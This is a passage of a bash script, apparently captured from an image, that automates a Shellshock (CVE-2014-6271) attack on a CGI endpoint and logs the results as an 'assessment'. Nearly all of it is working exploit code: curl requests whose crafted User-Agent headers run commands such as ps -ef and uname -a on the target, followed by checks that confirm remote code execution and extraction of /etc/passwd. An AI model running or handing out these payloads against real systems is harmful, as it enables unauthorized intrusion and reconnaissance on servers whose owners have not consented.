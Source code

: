 ```
curl -s -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'ps -ef'" http://$TARGET$CGI_PATH > "$REPORT_DIR/exploit_processes.txt"

# Test 4: System information
echo "Testing payload: system info" | tee -a "$REPORT_DIR/assessment.log"
curl -s -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'uname -a'" http://$TARGET$CGI_PATH > "$REPORT_DIR/exploit_systeminfo.txt"

# Phase 3: Results Analysis
echo "Phase 3: Results Analysis" | tee -a "$REPORT_DIR/assessment.log"
echo "=====================================" | tee -a "$REPORT_DIR/assessment.log"

# Check for successful exploitation
if grep -q "uid=" "$REPORT_DIR/exploit_id.txt"; then
    echo "✅ SUCCESS: Shellshock exploitation confirmed!" | tee -a "$REPORT_DIR/assessment.log"
    echo "✅ Command execution successful - Remote Code Execution achieved" | tee -a "$REPORT_DIR/assessment.log"
else
    echo "❌ FAILED: No evidence of successful exploitation" | tee -a "$REPORT_DIR/assessment.log"
fi

if grep -q "root:" "$REPORT_DIR/exploit_passwd.txt"; then
    echo "✅ SUCCESS: /etc/passwd file extracted successfully" | tee -a "$REPORT_DIR/assessment.log"
    USER_COUNT=$(grep -c ":" "$REPORT_DIR/exploit_passwd.txt")
    echo "📊 Information: $USER_COUNT user accounts discovered" | tee -a "$REPORT_DIR/assessment.log"
else
    echo "❌ FAILED: Unable to extract /etc/passwd file" | tee -a "$REPORT_DIR/assessment.log"
fi

if grep -q "PID" "$REPORT_DIR/exploit_processes.txt"; then
    echo "✅ SUCCESS: Process enumeration completed" | tee -a "$REPORT_DIR/assessment.log"
    PROCESS_COUNT=$(grep -c "root\|daemon\|www-data" "$REPORT_DIR/exploit_processes.txt")
    echo "📊 Information: $PROCESS_COUNT processes identified" | tee -a "$REPORT_DIR/assessment.log"
else
    echo "❌ FAILED: Process enumeration unsuccessful" | tee -a "$REPORT_DIR/assessment.log"
fi

# Generate summary report
echo "=====================================" | tee -a "$REPORT_DIR/assessment.log"
echo "🎯 ASSESSMENT SUMMARY" | tee -a "$REPORT_DIR/assessment.log"
echo "Target: $TARGET" | tee -a "$REPORT_DIR/assessment.log"
echo "Vulnerability: CVE-2014-6271 (Shellshock)" | tee -a "$REPORT_DIR/assessment.log"
echo "Assessment Date: $(date)" | tee -a "$REPORT_DIR/assessment.log"
echo "Evidence Location: $REPORT_DIR/" | tee -a "$REPORT_DIR/assessment.log"
echo "=====================================" | tee -a "$REPORT_DIR/assessment.log"

echo "🔥 Assessment completed! Check $REPORT_DIR/ for all evidence files."
echo "📝 Files generated:"
ls -la "$REPORT_DIR/"
```

---